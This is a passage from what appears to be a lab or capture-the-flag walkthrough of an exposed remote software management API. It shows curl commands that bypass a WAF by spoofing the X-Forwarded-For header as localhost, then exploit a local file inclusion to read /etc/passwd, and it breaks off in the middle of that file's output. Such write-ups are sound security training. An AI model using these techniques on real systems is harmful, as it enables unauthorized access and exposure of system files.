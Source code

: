 It looks to be a sensitive API that has been exposed, and the home  page has the documentation for it. According to the usage guide, an  update URL can be passed via a POST request to the **/update** endpoint with the following JSON data:

```
 {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

It appears that the target can download a Linux executable file (ELF) for an update and then run it by using the **/restart** endpoint. Another interesting endpoint to note is **/logs** that has the instruction `Read log files`.

## Exploitation

It looks like we need a valid username for the **/update** endpoint. Since brute-forcing it seems infeasible, we’ll come back to this endpoint later.

### Bypassing WAF

If we try to visit the **/logs** endpoint (http://192.168.120.149:13337/logs), we are presented with the following error:

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs                                                 
WAF: Access Denied for this Host.
```

The API appears to be “protected” by a web application firewall  (WAF), which denies access to our host. However, It is easily defeated.  Recalling the message `It is just for management on localhost.` on the API’s home page, all we have to do is add an HTTP header `X-Forwarded-For` and set it to `localhost` to bypass this access restriction.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs -H "X-Forwarded-For: localhost"
Error! No file specified. Use file=/path/to/log/file to access log files.
```

Great! We have bypassed the WAF and have now encountered a new error that appears to be generated by the application itself.

### Local File Inclusion Vulnerability

The error we observed hints at the possibility of an LFI vulnerability. Let’s test this theory by trying to access the **/etc/passwd** file.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Software Management API</title>
        <link rel="stylesheet" href="static/style.css"
    </head>
    <body>
        <center><h1 style="color: #F0F0F0;">Remote Software Management API</h1></center>
        <br>
        <br>
        <h2>Attention! This utility should not be exposed to external network. It is just for management on localhost. Contact system administrator(s) if you find this exposed on external network.</h2> 
        <br>
        <br>
        <div class="divmain">
            <h3>Log:</h3>
            <div class="divmin">
            root:x:0:0:root:/root:/bin/bash
```